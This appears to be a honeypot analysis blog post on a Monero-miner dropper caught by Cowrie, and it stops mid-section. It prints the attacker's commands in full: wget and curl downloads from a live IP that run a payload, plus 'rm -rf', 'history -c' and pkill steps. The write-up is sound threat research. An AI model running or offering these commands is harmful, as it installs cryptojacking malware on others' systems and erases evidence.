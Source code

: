 ```yaml
---
layout: post
title:  "Another-miner-caught-by-cowrie"
by:     "Michael Meade"
---
```

`nc 1 1; rm s.sh; wget http://45.148.10.186/s.sh; busybox wget http://45.148.10.186/s.sh; curl -O http://45.148.10.186/s.sh; chmod 777 *; sh s.sh; cat /etc/issue`


The text above is what the attacker entered in commmand prompt of the honey pot. Before the attackers attempted to download the payload, the actor uses `rm s.sh`
to remove any other copies of itself. After that is done the command will use both curl and wget to download the payload from `http://45.148.10.186/s.sh`.
The attacker used both curl and wget so that if one of the tools was not installed, the attacker could still download the payload.

After the attacker downloaded s.sh the attackers use the command `chmod 777 *` to change all the files and folders permissions to 777.
After doing that the attacker s.sh, then the attacker uses the cat command to view the file located at `/etc/issue`.


`
cd /tmp
wget http://45.148.10.186/so
wget http://45.148.10.186/config.json
curl -O http://45.148.10.186/so
curl -O http://45.148.10.186/config.json
busybox wget http://45.148.10.186/config.json
busybox wget http://45.148.10.186/so
chmod 777 *
./so
rm -rf *
rm config.json
history -c
pkill xmrig
pkill xmra64
pkill rx64
pkill cnrig
pkill xmrigMiner
echo wedonehereboiz-allwgetz
`
The contents above is what was in s.sh. Please note that the attacker orginally has all that as one line, they used ; to join all the lines into one long string. 
I created a new line at every `;` to make it easier to read. 

First the script will change the directory to `/tmp`. After the scrip changes the the directory, the script will download a file named so that is hosted at:'
`http://45.148.10.186/so`. After the `so` file is downloaded, the script will download a json file named config.json. This file is located at: `wget http://45.148.10.186/config.json`
This json file is the miners config file, its where the attacker stores all the settings that the miner will read. Information like the pool, the XMR address and other settings for the miner to use.  
As the same before the attackes will attempt to use curl to make sure the files are downloaded. 

Once again the attackes will change all the files and direcories permissions to 777.  The script will than run the `so` file and also use the `rm -rf *` command to 
remove all the contents of `/tmp`.  The script will also use the rm command to remove the mine config.  The script will use the   `history -c` command to remove
systems history file contents. After all that is done, the script uses the pkill command to kill other common proccesses. The next part is where it gets kinda weird.
The attcker then following command `echo wedonehereboiz-allwgetz` to echo the text "wedonehereboiz-allwgetz".

### The Miner Config
The bash script that was`http://45.148.10.186/config.json`
